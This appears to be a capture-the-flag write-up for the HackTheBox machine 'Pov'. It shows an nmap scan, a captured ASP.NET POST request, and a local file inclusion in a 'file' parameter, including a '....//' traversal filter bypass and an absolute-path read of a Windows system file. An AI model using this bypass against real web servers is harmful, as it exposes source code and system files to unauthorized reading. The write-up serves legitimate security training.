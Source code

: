 # HackTheBox Pov Writeup
## Nmap
```
Nmap scan report for 10.10.11.251
Host is up, received user-set (0.014s latency).
Scanned at 2024-02-20 13:49:57 +08 for 155s
Not shown: 65534 filtered tcp ports (no-response)
PORT   STATE SERVICE REASON          VERSION
80/tcp open  http    syn-ack ttl 127 Microsoft IIS httpd 10.0
|_http-favicon: Unknown favicon MD5: E9B5E66DEBD9405ED864CAC17E2A888E
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-title: pov.htb
|_http-server-header: Microsoft-IIS/10.0
```

### LFI
![pov1](https://raw.githubusercontent.com/ngohuiann/CTF-Write-Ups/main/image/pov1.png)

dev.pov.htb download CV button generate this request:
```
POST /portfolio/default.aspx HTTP/1.1
Host: dev.pov.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 373
Origin: http://dev.pov.htb
Connection: close
Referer: http://dev.pov.htb/portfolio/default.aspx
Upgrade-Insecure-Requests: 1

__EVENTTARGET=download&__EVENTARGUMENT=&__VIEWSTATE=DAsrQy2PiX5KXtsNF4kDsu5N%2BdzCpkMawb5RGKK2jE9Ib1cqLXmSkDJFVuSLpnFGy42fvDQIQ%2BM4UNG84A9ADXmHZV8%3D&__VIEWSTATEGENERATOR=8E0F0FA3&__EVENTVALIDATION=GU%2F9W%2BTIKmqI67CcoIuM9cVEupmKIkWHSIH7STIYe2%2F98bqu8u2yf9qPKhgQ2okH9EAcOgB243e%2BaS4XYn3bwjWrnH4g3ByuUxIOSQER88Q%2F4FAoE9FtdJH0jmKFG1ipF84l2g%3D%3D&file=index.aspx.cs
```
![pov2](https://raw.githubusercontent.com/ngohuiann/CTF-Write-Ups/main/image/pov2.png)

The file parameter is vulnerable to LFI, read source code by inserting default.aspx. It is shown that "../" is being sanitized. But we can bypass this with "....//" or just specified the full path (eg. C:\windows\win.ini)


